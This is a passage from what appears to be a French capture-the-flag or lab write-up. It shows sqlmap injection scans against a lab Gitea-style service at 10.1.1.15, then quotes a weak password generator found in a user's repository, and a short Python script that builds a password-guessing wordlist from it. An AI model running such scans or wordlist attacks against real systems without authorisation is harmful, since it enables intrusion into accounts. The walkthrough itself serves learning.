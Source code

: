 ```bash
sqlmap -u "http://10.1.1.15:3000/russel/Beta-scripts/issues?labels=&type=&state=" -p labels
sqlmap -u "http://10.1.1.15:3000/api/v1/repos/search?q=beta" -p q
```

Malheureusement rien ne ressort, l'application devant être dans une version corrigée :(   

On trouve toutefois un script intéressant dans le dépôt *Beta-scripts* d'un certain *Russel* :  

```python
"""
Just a secure password generator made by Russel T !! Used to generate passwords  mostly for file sharing protocols 
Contact:russel@beta.corp
"""

import random
import sys

menu = """
__             ___                 ___         __ 
/ _\ ___  ___  / _ \__ _ ___ ___   / _ \___  /\ \ \
\ \ / _ \/ __|/ /_)/ _` / __/ __| / /_\/ _ \/  \/ /
_\ \  __/ (__/ ___/ (_| \__ \__ \/ /_\\  __/ /\  / 
\__/\___|\___\/    \__,_|___/___/\____/\___\_\ \/  
                                                                Beta Corp
"""

words = ['lollip0p','rain','summer','little','honey']
end  = [1,2,3,4,5]

print(menu)

word = random.choice(words)
num = random.choice(end)

password = (word)+(str(num))

print("the secure password is : {}".format(password))
```

Ce *Russel* a visiblement une vision un peu faussée de ce qu'est un mot de passe fort :D  

Prenons le au jeu en générant une wordlist de ces mots de passe *\*secure\** :  

```python
from itertools import product

words = ['lollip0p','rain','summer','little','honey']
end  = [1,2,3,4,5]

for word, num in product(words, end):
    print("{}{}".format(word, num))
```
